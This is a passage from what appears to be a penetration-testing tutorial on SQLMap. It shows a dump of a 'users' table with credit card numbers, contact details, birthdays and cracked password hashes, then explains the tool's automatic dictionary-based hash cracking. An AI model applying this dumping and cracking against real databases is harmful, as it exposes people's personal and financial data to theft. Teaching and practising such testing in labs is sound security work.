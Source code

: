 ```shell-session
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'                                                                                                        
Database: master                                                                                                                                                                                          
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | MaynardMRice@yahoo.com      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | JulioWThomas@gmail.com      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | KennethTMaloney@gmail.com   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | GregoryBStumbaugh@yahoo.com | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | BobbyJGranger@gmail.com     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | KimberlyMWright@gmail.com   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
| 7  | 5503989023993848 | Dean Harper       | DeanLHarper@yahoo.com       | 440-847-8376 | 3766 Flynn Street      | February 3 1974   | 2b89b43b038182f67a8b960611d73e839002fbd9 (raided)           | Store detective                                   |
| 8  | 4556586478396094 | Gabriela Waite    | GabrielaRWaite@msn.com      | 732-638-1529 | 2459 Webster Street    | December 24 1965  | f5eb0fbdd88524f45c7c67d240a191163a27184b (ssival47)         | Telephone station installer                       |
```

We can see in the previous example that SQLMap has automatic password hashes cracking capabilities. Upon retrieving any value that resembles a known hash format, SQLMap prompts us to perform a dictionary-based attack on the found hashes.

Hash cracking attacks are performed in a multi-processing manner, based on the number of cores available on the user's computer. Currently, there is an implemented support for cracking 31 different types of hash algorithms, with an included dictionary containing 1.4 million entries (compiled over the years with most common entries appearing in publicly available password leaks). Thus, if a password hash is not randomly chosen, there is a good probability that SQLMap will automatically crack it.
